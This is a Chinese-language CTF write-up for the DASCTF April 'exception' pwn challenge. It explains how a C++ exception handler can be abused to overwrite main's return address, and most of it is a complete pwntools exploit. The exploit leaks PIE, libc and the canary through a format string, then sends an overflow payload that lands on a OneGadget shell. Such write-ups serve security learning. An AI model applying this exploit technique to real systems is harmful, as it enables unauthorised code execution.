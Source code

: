 ```yaml
---
title: DASCTF 4月赛 - exception 
date: 2024/4/21 23:54:00
updated: 2024/7/25 12:34:56
tags:
    - c++ exception
excerpt: 利用C++异常处理漏洞，通过修改`main`函数返回地址实现提权。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.15|

## 解题思路

考察了C++的异常处理，由于给的信息较多，不一定需要利用异常机制

这道题中，`vuln`中的异常抛出后会被`main`中的catch接住，执行完毕后返回`main`，
因此可以保持`vuln`上内容不变，而写`main`函数的返回地址为OneGadget拿shell

另外，throw时不会对当前函数的stack frame上的Canary做检查

> 在dynamic_or_static上花的时间太久了，这道题没时间做了

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './exception'

def payload(lo:int):
    global sh
    if lo:
        if lo & 2:
            sh = gdb.debug(EXE, 'b if $rdi == $rebase(0x2086)')
        else:
            sh = process(EXE)
    else:
        sh = remote('', 9999)
    elf = ELF(EXE)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.15_amd64/libc.so.6')
    mainArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2

    sh.sendlineafter(b'name\n', b'%15$p,%12$p,%7$p')
    main, arena, canary = map(lambda x: int(x, 16), sh.recvline().decode().split(','))
    pieBase = main - elf.symbols['main']
    libcBase = arena - mainArena
    sh.recvuntil(b'stack\n')
    rsp = int(sh.recvline(), 16)
    success(GOLD_TEXT(f'Leak PIE base: {hex(pieBase)}'))
    success(GOLD_TEXT(f'Leak libc base: {hex(libcBase)}'))
    success(GOLD_TEXT(f'Leak canary: {hex(canary)}'))
    success(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    
    oneGadget = libcBase + 0xe3b04
    # after throw the control flow goes back to main, so we mod ret addr at main
    sh.send(b'0'*0x70 + p64(rsp + 0xa0) + p64(pieBase + elf.symbols['main'] + 168) + # leave rbp and ret addr unchanged
            p64(0) + p64(canary)*4 + p64(oneGadget))

    sh.clean()
    sh.interactive()
```

